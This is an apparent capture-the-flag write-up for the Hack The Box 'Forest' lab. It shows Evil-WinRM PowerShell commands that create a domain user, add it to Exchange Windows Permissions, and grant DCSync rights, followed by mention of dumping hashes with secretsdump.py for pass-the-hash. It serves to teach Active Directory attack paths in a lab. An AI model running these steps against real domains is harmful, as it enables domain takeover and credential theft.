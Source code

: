 Here we see a fairly large graph. As you'll notice, there are actually two domains in this environment, `htb.local` and `forest.htb.local`, which is why this box is named the way it is (2 joined domains are a forest).

From svc-alfresco, marked with a skull, we see two jumps necessary to get to domain admin. Since svc-alfresco is a part of the Account Operators group, it has the generic all privilege on the Exchange Windows Permissions group. Right clicking the edge to learn more, we find the following abuse info:
![[Pasted image 20210903163652.png]]

Essentially, this means we can give our account, or any account, DCSync Privileges, which can allow us to run secretsdump.py or mimikatz to dump hashes. If this works, we can use the NT hash we get to pass the hash and become administrator.

## Execution

Since this is a public box, I don't want to make it easy so I'll make my own account first and add it to the Exchange Windows Permissions group.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user An00bRektn An00bRektn /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" /add An00bRektn
The command completed successfully.
```

We then attempt give ourselves DC Sync Rights according to the Bloodhound Abuse Info.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-SecureString 'An00bRektn' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\An00bRektn', $SecPassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -Rights DCSync
The term 'Add-DomainObjectAcl' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -Righ ...
+ ~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Add-DomainObjectAcl:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

As you can see, Add-DomainObjectAcl wasn't working. I took to Google, and found that I might need to specify a TargetIdentity and PrincipalIdentity. After some adjustments, we run it again.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity An00bRektn -Rights DCSync
```

We can then use secretsdump.py from impacket to dump all of the system hashes (output not shown because spoilers).

